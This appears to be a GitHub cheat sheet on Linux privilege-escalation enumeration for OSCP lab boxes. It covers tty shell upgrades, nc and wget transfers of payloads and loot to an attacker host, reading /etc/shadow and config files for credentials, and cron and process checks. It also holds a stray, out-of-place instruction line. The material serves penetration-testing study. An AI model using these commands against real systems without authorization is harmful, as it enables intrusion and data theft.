 # Linux Enumeration

I will do **Manual Enumeration** before running LinPEAS or lse or pspy. 

Now repeat that five times.

Many OSCP boxes are designed in a way where linPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a linux host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc (which should be native on a linux host) or a msfvenom payload. Also do the following to upgrade a shell to tty using python (or python3)

```bash
# on the target host
which python python2 python3 # check which python exist. Then use the relevant version below

python -c "import pty;pty.spawn('/bin/bash');"

python3 -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/sh");

```

## How to transfer files from Kali to Linux

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using /tmp, /dev/shm, /var/tmp (default global writable directories) or if you land a shell as a user, you can use that user's home directory.

```bash
wget http://<kali ip>/<file>
```

On the off chance that you somehow cant use wget, check if your current user has its path variables set correctly

```bash
# on the target

echo $PATH 

# In general, should look something like this: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
# if somehow this is empty then just set the Path variable

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

echo $PATH # to verify

```

Ok I really dont have wget! So what now? If you ssh-ed into the host, you can use scp (Secure Copy Paste)

```bash
# on your kali

scp [OPTIONS] [[user@]src_host:]file1 [[user@]dest_host:]file2

OPTIONS
-r recursive copy
-q quiet mode

For files we can use wildcard such as *.php

# if need diff port and id_Rsa keys, put them in front for it to work

# the below examples uses id_rsa to login and transfers linpeas.sh from kali to the /home/anita path

scp -P 2222 -i id_rsa linpeas.sh anita@192.168.208.245:/home/anita

```

If not SSH, you can always see the ancient method of using nc to file transfer.

Transferring evil.sh from kali to target
```bash
# on kali
nc -lvnp 80 < evil.sh
# on target
nc <kali ip> 80 > evil.sh
```
Transferring loot.txt from target to kali
```bash
# on kali
nc -lvnp 80 > loot.txt
# on target
nc <kali ip> 80 < loot.txt
```

-------------------
## Checking for the Quick Wins

1) The first few commands you SHOULD ALWAYS RUN is this:

```bash
# check your group
id
# check your history
history
# check your sudo powers
sudo -l
# check your environment variables
env
```

If you see groups like docker, backup, disk, adm, or anything that is just not your username. These are things that are either PE vectors or things you should investigate as being in those groups can give you certain powers. Note down!

sudo -l can reveal quick wins and more often than not THE PE vector. 

env to check for hardcoded credentials

2) Check Kernel Version. IF it looks ancient, then it might be a kernel exploit

```bash
uname -a 
cat /etc/os-release
```

3) Next is user enumeration and user home directories enumeration

```
cat /etc/passwd

ls -la /etc/passwd /etc/shadow  # might as well see if you can write to passwd or read shadow for an easy win

# ls -laRH lists all files recursively (including hidden) and outputs in human readable form. This is a godly command to quickly spider down directories

# you ls -laRH /home so that you can quickly see what files are in each user's directory (provided you can access them)

ls -laRH /home
```

4) Next thing you should do is to enumerate the world writable directories. Any thing inside that is not default should be investigated.

```bash
ls -la /tmp /opt /dev/shm /var/tmp
# the below command searches for all world writable directories. Any non default directories are worth investigating
find / -writable -type d 2>/dev/null
```

5) Check out the cron jobs. Do note that your user may not have privs to see root's cron jobs so a lack of results does not necessary mean that there is no cron jobs! 

```bash
crontab -l # this checks your own cron jobs. Usually there is nothing and plus you cant really elevate from this.
ls -lah /etc/cron.d
cat /etc/crontab
# the below might output information that pspy somehow misses. I am not sure why
systemctl status cron
```

6) Take a look at running processes and look for anything that doesnt look default. If you do more boxes, you will see which are default processes and which are not:

```bash
ps auxww
```

You also want to check for any locally hosted services
```bash
ss -antp
netstat -antp
```

7) Last thing you should do is to check out /var/www/html if there are web services. What you are looking for are config files that may contain hard-coded credentials. You can use the find command to look for things

```bash
find / -name *.conf, *.yml -type f 2>/dev/null
# this searches for a particular string in all files recursively from the specified directory. Might take a while to run though
grep -Horn <text> <dir>
```

## No Shell but can read files via webshell or some other blackmagic

https://idafchev.github.io/enumeration/2018/03/05/linux_proc_enum.html

```bash
# if you have Remote File Read (but cant get a shell) you can try to read the following files:

/proc/self/cmdline

/proc/<pid>/cmdline # can write a simple script to iterate through all PIDs

/proc/sched_debug
```

## AutoEnum

for lse.sh I find good results with the following command which is more verbose than the basic version

```bash
./lse.sh -l1
```

for pspy, do add the following flag. Run pspy if you suspect that root is running some cron job that you cant see from your current user's permission.

This is similiar to scheduled tasks in Windows where if your user may not be privileged enough to see root cron jobs even after you check out /etc/crontab

```bash
./pspy64 -pf  # run -f to see file commands  such as cd or else you will miss stuff!

# let it run a couple of minutes just to see if there is anything
```